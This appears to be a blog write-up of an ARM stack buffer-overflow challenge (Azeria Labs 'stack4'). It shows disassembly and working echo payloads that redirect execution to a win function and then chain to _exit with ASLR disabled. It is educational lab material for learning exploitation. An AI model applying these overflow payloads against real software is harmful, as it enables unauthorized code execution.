 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part V"
tags: reversing exploiting ARM iasm azeria-labs egg shellcode
---
```


[Fifth challenge](https://github.com/azeria-labs/ARM-challenges)
with a small introduction to *process continuation*.<!--more-->


## Planning the exploit

```nasm
pwndbg> pdisass &main
 ► 0x10464 <main>       push   {fp, lr}
   0x10468 <main+4>     add    fp, sp, #4
   0x1046c <main+8>     sub    sp, sp, #0x48
   0x10470 <main+12>    str    r0, [fp, #-0x48]
   0x10474 <main+16>    str    r1, [fp, #-0x4c]
   0x10478 <main+20>    sub    r3, fp, #0x44
   0x1047c <main+24>    mov    r0, r3
   0x10480 <main+28>    bl     #gets@plt <gets@plt>

   0x10484 <main+32>    mov    r0, r3
   0x10488 <main+36>    sub    sp, fp, #4
   0x1048c <main+40>    pop    {fp, pc}
```

`sub r3, fp, #0x44` means that the buffer begins 0x44 bytes from `fp`,
the begin of the stack frame.

As we saw [previously](/articles/2021/01/14/Smashing-ARM-Stack-for-Fun-Part-I.html),
the stack frame includes the *previous* value
of `fp` but not `lr` which it is *immediately below*.

So a buffer overflow of 0x44 bytes will overwrite the stored `fp` and an
overflow of 0x48 will overwrite `fp` and `lr`.

If we do the latter, the function `main` will jump to
our own code on *return*.

{% marginnote
'The left diagram shows the stack from lower
addresses (left) to higher addresses (right) and the `main`&apos;s and
`__libc_start_main`&apos;s stack frames (`main` and `start` for short)
' %}


```nasm
    main --------------v------ start
.......   fp      lr   |  ??   ??   ??   ??
```

As you can see the `fp` and `lr` are stored in the stack as well as an
unknown local variables of `__libc_start_main`.

When the overflow occurs this is the result:

```nasm
    main ---------------v----- start
.......   fp      lr    | ??   ??   ??   ??         (pre-exploit)
    main ---------------v----- start
AAAAAAA   BB      addr1 | ??   ??   ??   ??         (overflow)
```

No more crazy stuff is needed here, we can jump to `win` (`addr1 == 0x1044c`)
directly.

## Exploit level 1

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x4c\x04\x01\x00' | ./stack4
code flow successfully changed
Segmentation fault
```

Yeah! but that segfault looks sloppy.

## A more *polite* exploit

Once `win` executes it will pop from the stack the stored
`lr` and set it into `pc`.

We didn't call `win` with `bl` or similar so the `lr` was never
set correctly and the value pushed in the stack by `win` was garbage.

When `win` returns will jump to who-knows-where.

```nasm
    main ---------------v----- start
.......   fp      lr    | ??   ??   ??   ??         (pre-exploit)
    win ----------------v----- start
          BB      ??    | ??   ??   ??   ??         (win called)
                  ^
                  ret address of win
```

And if we don't jump to `win` exactly?

We could jump to the second instruction of `win`:
we will be **skipping** the `push`.

```nasm
pwndbg> pdisass &win
   0x1044c <win>        push   {fp, lr}
 ► 0x10450 <win+4>      add    fp, sp, #4
   0x10454 <win+8>      ldr    r0, [pc, #4]
   0x10458 <win+12>     bl     #puts@plt <puts@plt>

   0x1045c <win+16>     pop    {fp, pc}
```

In this way we can *emulate* the `push` of `fp` and `lr` adding 8 bytes
to our payload.

```nasm
    main ---------------v--------- start
.......   fp      lr    | ??    ??      ??   ??      (pre-exploit)
    main ---------------v--------- start
AAAAAAA   BB      addr1 | CC    addr2   ??   ??      (overflow extended)
                        v--------- start
          ??      ??    | CC    addr2 | ??   ??      (win called without push)
        ------ win -------------------^
```

So now we control where `win` will return: `addr2`.

## Planning a controlled exit

An ideal situation would make the program continue running after
exploiting it, known as
[process continuation shellcode](https://azeria-labs.com/process-continuation-shellcode/)
but it is too complex for now.

The simplest thing is to call
[`_exit`](https://linux.die.net/man/2/_exit)
a thin glib wrapper of [`exit_group`](https://man7.org/linux/man-pages/man2/exit_group.2.html)
syscall that exits the process and its threads.

```nasm
pwndbg> pdisass &_exit
 ► 0xb6f1b934 <_exit>       push   {r7, lr}
   0xb6f1b938 <_exit+4>     mov    r2, r0
   0xb6f1b93c <_exit+8>     mov    r7, #0xf8
   0xb6f1b940 <_exit+12>    svc    #0
   0xb6f1b944 <_exit+16>    cmn    r0, #0x1000
   0xb6f1b948 <_exit+20>    bhi    #_exit+68 <_exit+68>
```

The `svc #0` is what it triggers the syscall. In Arm 32bits the
instruction is `swi` but the disassembler renames it to the newer name:
*supervisor call*.

The syscall number is passed to the kernel via `r7` as mentioned in [man
syscall(2)](https://man7.org/linux/man-pages/man2/syscall.2.html).

In our case [0xf8 is the syscall number](https://github.com/torvalds/linux/blob/v4.17/arch/arm/tools/syscall.tbl#L265)
of
[`exit_group`](https://man7.org/linux/man-pages/man2/exit_group.2.html).

## Exploit level 2

We are going to cheat a little and disable ASLR so we can hardcode
the address of `_exit` (0xb6f1b934)

```shell
pi@raspberrypi:~$ setarch linux32 --addr-no-randomize /bin/bash
(aslr disabled) pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x50\x04\x01\x00BBBB\x34\xb9\xf1\xb6' | ./stack4
code flow successfully changed

(aslr disabled) pi@raspberrypi:~$ echo $?
31

(aslr disabled) pi@raspberrypi:~$ exit
exit
```

As you can see the return code of the process was 31. I corroborated
with a debugger the value of the registers before the syscall and `r0`
was 31 as expected.

Instead of jumping to `_exit` we could jump before to a piece of code
--known as gadget-- that sets `r0` to zero and then jump to `_exit`.

But that's for another post.

